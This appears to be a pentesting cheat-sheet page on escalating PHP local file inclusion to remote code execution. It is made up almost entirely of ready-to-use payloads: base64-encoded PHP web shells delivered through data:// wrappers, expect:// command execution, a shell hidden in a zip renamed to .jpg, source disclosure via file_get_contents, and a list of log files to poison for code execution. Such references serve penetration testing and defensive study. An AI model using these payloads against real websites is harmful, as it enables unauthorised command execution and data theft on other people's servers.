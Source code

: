 ```
# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls

http://example.com/index.php?page=expect://id
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

{% embed url="https://www.youtube.com/watch?v=Jl36YdzKPz4" %}

#### Wrapper Expect://&#x20;

```
http://example.com/index.php?page=expect://id

```

#### Wrapper zip://

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```
